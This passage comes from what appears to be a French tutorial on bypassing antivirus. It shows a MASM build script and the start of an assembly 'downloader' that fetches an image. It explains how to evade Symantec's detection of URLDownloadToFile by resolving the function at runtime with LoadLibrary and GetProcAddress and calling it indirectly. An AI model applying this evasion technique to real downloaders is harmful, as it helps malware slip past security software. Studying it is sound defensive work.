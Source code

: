 Le lecteur interessé pourra comparer les paramètres poussés sur la stack avec ceux proposés par la MSDN (voir ci-dessus).

Pour compiler et linker rapidement, j'utilise le script batch ci-dessous:
```
@echo off 
set prog=downloader 
if exist %prog%.exe del %prog%.exe 
\masm32\bin\ml /c /coff /nologo %prog%.asm 
\masm32\bin\Link /SUBSYSTEM:WINDOWS /MERGE:.rdata=.text %prog%.obg > nul 
del %prog%.obj 
pause
```

La compilation fonctionne, et pourtant l'executable n'apparait pas dans le dossier source car celui-ci a été intercepté par l'AV comme on peut le voire ci-dessous:

![image alt text](/images/bypass-antivirus/symantec.png)

Comme le downloader est vraiment très simple, on en conclut que le simple appel à la fonction __URLDownloadToFile__ classe le programme dans la catégorie __Suspicious__ et met alors le programme en quarantaine. Rappelons que le downloader cherche simplement à télécharger une photo .. C'est un peu abusif de la part de l'AV ..

La première idée pour contourner ce problème est de ne plus faire appel à __URLDownloadToFile__ tout en continuant d'utiliser cette fonction. Au lieu d'effectuer un __call URLDownloadToFile__, je vais effectuer un __call eax__ (eax contiendra alors l'addresse d'__URLDownloadToFile__).

Afin de trouver l'adresse d'__URLDownloadToFile__, il faut d'abord que je charge en mémoire la librairie __Urlmon.dll__. Pour cela, je vais utiliser la fonction __LoadLibrary__ qui se trouve dans __kernel32.dll__ (voir MSDN). Puis pour trouver l'adresse d'__URLDownloadToFile__, je vais utiliser la fonction __GetProcAddress__ qui se trouve aussi dans __kernel32.dll__ (voir msdn).

__LoadLibrary__ prend en paramètre une chaine de charactères correspondant à la librairie que l'on veut charger. Quant à __GetProcAddress__, elle prend en paramètre une chaine de charactères correspondant au nom de la fonction dont on cherche l'adresse, ainsi que le handle de la librairie chargée (retour de __LoadLibrary__) qui contient la fonction recherchée. Le code du downloard est modifié comme suit:

```
include \masm32\include\masm32rt.inc 

.586 
.model flat, stdcall 
option casemap:none 

.data 
	host db 'http://wallpapersdsc.net/wp-content/uploads/2015/09/Zooey_Deschanel_88.jpg', 0 
	filename db 'zooey.jpg', 0 
	lib_Urlmon db 'Urlmon.dll', 0
	func_URLDownloadToFile db 'URLDownloadToFileA', 0

```